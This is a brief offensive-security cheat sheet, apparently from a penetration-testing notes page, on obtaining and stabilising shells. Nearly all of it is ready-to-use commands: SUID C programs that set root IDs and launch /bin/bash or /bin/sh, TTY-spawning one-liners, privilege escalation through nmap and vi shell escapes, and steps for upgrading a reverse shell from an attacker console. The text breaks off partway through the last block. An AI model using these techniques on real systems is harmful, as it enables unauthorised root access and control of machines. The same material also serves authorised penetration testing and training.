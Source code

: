 # 🐚 Shells and Reverse Shells Cheat Sheet

**SUID C Shells**

* **bin/bash:**

```
int main(void){

setresuid(0, 0, 0);

system("/bin/bash");

}
```

* **bin/sh:**

```
int main(void){

setresuid(0, 0, 0);

system("/bin/sh");

}
```

#### **TTY Shell:** <a href="#toc475368998" id="toc475368998"></a>

* ```
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
* ```
  echo os.system('/bin/bash')
  ```
* ```
  /bin/sh –i
  ```
*   ```
    execute('/bin/sh')
    ```



**LUA:**

* ```
  !sh
  ```
  * Privilege Escalation via nmap
* ```
  :!bash
  ```
  * Privilege escalation via vi

#### Fully Interactive TTY:

<pre><code><strong>                                In reverse shell 
</strong>python -c 'import pty; pty.spawn("/bin/bash")'
<strong>Ctrl-Z
</strong><strong>                                In Attacker console
</strong>stty -a
stty raw -echo
<strong>fg
  ```